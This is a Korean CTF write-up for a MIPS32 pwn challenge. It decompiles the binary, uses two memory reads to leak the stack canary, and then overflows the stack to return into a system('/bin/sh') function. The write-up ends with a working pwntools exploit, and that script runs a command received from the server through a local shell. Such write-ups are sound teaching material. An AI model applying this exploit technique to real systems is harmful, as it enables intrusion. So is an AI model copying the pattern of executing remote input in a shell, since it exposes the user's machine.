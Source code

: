 # MIPS

## 보호 기법

![images/image.png](images/image.png)

MIPS 32 아키텍쳐이고, stack canary가 활성화되어 있다.

## 코드 분석

MIPS Assembly를 유사 C코드로 변환한 결과이다.

```c
int count = 0;

// fp: stack frame pointer
void run() {
		char name[]; // fp + 0x2c
		int cmd; // fp + 0x20
		unsigned int value; // fp + 0x1c
		
		[...]
		
		while (1) {
				print_menu();
				cmd = get_cmd();
				
				switch(cmd) {
				case 1:
						if (count < 2) {
								count++;
								printf("Enter the address to read from: ");
								scanf("0x%x", &value);
								getchar();
								printf("0x%x\n", value); // AAR
						}
						else {
								puts("You have already read memory twice.");
						}
						break;
				case 2:
						puts("Enter your name:");
						fgets(name, 0x30, stdin); // BOF
						goto out;
						break;
				default:
						puts("Invalid choice. Try again.");
				}
		}
		
out:
		// stack canary check
}
```

`case 1`에 의해 총 2번의 AAR이 가능하고, `case 2`에 의해 BOF가 발생하게 된다.

stack canary check 부분의 assembly를 살펴보면 다음과 같다.

```nasm
00400d04:	lw $2,-32688($28)       ; $2 = __stack_chk_guard
00400d08:	lw $3,60($30)           ; stack canary = [fp + 0x3c]
00400d0c:	lw $2,0($2)             ; master_canary = [__stack_chk_guard]
00400d10:	beq $3,$2,0x400d58      ; branch if stack_canary == master_canary
00400d14:	sll $0,$0,0x0
00400d18:	beq $0,$0,0x400d48      ; branch if stack canary CORRUPTED
00400d1c:	sll $0,$0,0x0

[...]

00400d48:	lw $2,-32700($28)
00400d4c:	or $25,$2,$0
00400d50:	jalr $31,$25            ; __stack_chk_fail();
00400d54:	sll $0,$0,0x0
00400d58:	or $29,$30,$0
00400d5c:	lw $31,68($29)          ; ret addr = [fp + 0x44]
00400d60:	lw $30,64($29)          
00400d64:	addiu $29,$29,72
00400d68:	jr $31
```

- master canary값은 [__stack_chk_guard] 에 저장되어 있으므로, 2번의 AAR을 통해 값을 읽어올 수 있다.
- stack canary는 [fp + 0x3c] 에 위치해 있고, return address는 [fp + 0x44]에 위치해 있으므로, canary leak 이후 BOF를 통해 원하는 주소로 return 가능하다.

0x400964의 함수는 `system("/bin/sh")`를 호출하므로, return address를 0x400964로 설정하면 된다.

## 익스플로잇 코드

```python
from pwn import *
import subprocess

# r = remote("127.0.0.1", 5003)
r = remote("mips.chal.cyberjousting.com", 1357)

r.recvline()

cmd = r.recvline()
output = subprocess.check_output(cmd.decode(), shell=True)
r.sendafter(b"solution: ", output)

def menu(cmd):
    r.sendlineafter(b"> ", str(cmd).encode())
    
def read_memory(addr):
    menu(1)
    r.sendlineafter(b"from: ", hex(addr).encode())

def enter_name(name):
    menu(2)
    r.sendafter(b"name:", name)
    
read_memory(0x420060)
canary_addr = int(r.recvline()[:-1], 16)

read_memory(canary_addr)
canary = int(r.recvline()[:-1], 16)

enter_name(b"A" * 0x10 + p32(canary) + b"A" * 4 + p32(0x400964))

r.interactive()
```